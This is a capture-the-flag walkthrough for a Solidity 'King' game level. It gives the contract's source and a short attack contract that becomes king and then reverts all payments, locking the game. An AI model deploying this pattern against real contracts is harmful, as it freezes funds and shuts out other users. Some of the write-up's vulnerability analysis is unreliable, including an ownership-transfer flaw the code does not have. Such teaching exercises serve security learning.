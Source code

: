### TASK
The task of the game is to be the player who sends the largest amount of ether to the game, thus becoming the "king." The objective of breaking the game would be to identify and exploit any vulnerabilities in the game's code that would allow a player to win the prize without actually sending the largest amount of ether. 
Such a fun game. Your goal is to break it.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

In Solidity, the receive function is a function that is automatically executed when a contract receives direct Ether payments. The receive function can be used to process incoming payments and update the state of the contract accordingly. The receive function is marked as external payable, which means it can receive direct Ether payments and access the msg.value property to determine the amount of the incoming payment.
<br/>

### CODE VUNERABILITIES
1. No mechanism to prevent ownership transfer: There is no mechanism in place to prevent the owner from transferring ownership of the contract to another address, potentially allowing an attacker to take control of the contract and modify its behavior. This is where we are going to break the game!

```
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

The function requires that the value of the incoming transaction (msg.value) should either be greater than or equal to the current prize (prize) or the sender of the transaction (msg.sender) should be the owner of the contract. This check allows the owner of the contract to always take the "kingship" of the contract, resetting all the values.
<br/>
If the requirement is met, the function transfers the incoming payment to the current king (payable(king).transfer(msg.value)) and updates the king to the new sender (king = msg.sender) and the prize to the incoming payment value (prize = msg.value).
<br/>
From a security perspective, this function is a major concern as it enables the owner of the contract to reset everything without compensating the current king and leaving the funds trapped in the contract.
<br/>
If the transfer of ether to the current king fails, then the entire 'receive()' function will revert, making the contract unusable, meaning no one can become the new King. This can lead to a situation where funds are stuck in the contract and cannot be withdrawn, which is not desirable. To avoid this, it is recommended to use a mechanism that ensures that the transfer of funds to the current king is successful before updating the state of the contract. 
<br/>
This can be achieved using a pattern called "Safe Transfer" or by checking the return value of the transfer function and only updating the state of the contract if the transfer was successful.


### Breaking the game
We need to create and deploy a contract that will not accept any kind of Ether payment sent to it. 

```
contract HackKing{
    constructor(address _instanceAddress) payable{
        (bool success, ) = payable(address(_instanceAddress)).call{value: msg.value}("");
        require(success, "Call failed");
    }

    receive() external payable {
        revert ("You can't be king!");
    }
}
```
The main purpose of the 'HackKing' contract is to take over the position of the King and stop accepting any Ether. By not including any payable functions, fallback or 'receive', no one is able to send Ether to the contract. 
<br/>
The constructor of the contract takes an address of the king contract address and executes a call to that address with the incoming value from the payment. The 'receive' function is included in the contract, but it simply reverts any incoming payments with the message "You can't be king!".

<br/>
<b>Challenge Solved!!!</b>
